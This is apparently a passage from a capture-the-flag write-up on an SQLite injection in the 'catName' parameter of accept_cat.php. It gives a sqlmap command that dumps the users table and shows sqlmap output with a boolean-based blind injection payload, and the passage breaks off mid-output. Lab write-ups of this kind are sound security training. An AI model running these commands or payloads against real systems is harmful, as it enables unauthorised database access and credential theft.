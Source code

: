{: .file=accept_cat.php}

Here In this code the value of `catName` is directory entered to the database that makes it `SQL vulnerable` that means we have `SQLite Injection` here.
Another reason I am the site administrator is to have the admin user cookie, which expires quickly, thus I had to create the cookie several times during the SQL injection process.

---

## 4️⃣ Vulnerability Identification

##### SQLite Injection Vulnerability :

- **What it is:** This SQLite is a database and contain data of the website which includes credentials
    
- **Why the target is vulnerable:** Due to poor input validation check and misconfig, etc.
    
- **Links:**
    
    - [SQLite Injection](https://swisskyrepo.github.io/PayloadsAllTheThings/SQL%20Injection/SQLite%20Injection/#sqlite-error-based)
        

---

## 5️⃣ Exploitation

### Content:

- For exploitation of this vulnerability I used Tool called <mark style="background: #FFB8EBA6;">SQLMAP</mark> that works for any kind of SQL Injection attack.
    
- Commands used:
    

```bash
└─$ sqlmap -r accept_cat.req --thread=10 -p 'catName' --batch --dbms=sqlite --level=5 --risk=3 --dbs cats -T users --dump
```
{: .nolineno}

```bash

       __H__
 ___ ___[(]_____ ___ ___  {1.9.6#stable}
|_ -| . [(]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|'   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end users responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 

[09:53:30] [INFO] parsing HTTP request from 'accept_cat.req'
[09:53:31] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: catName (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: catName=BLLI'||(SELECT CHAR(122,73,72,84) WHERE 2252=2252 AND 9867=9867)||'&catId=1

    Type: time-based blind
    Title: SQLite > 2.0 AND time-based blind (heavy query)
```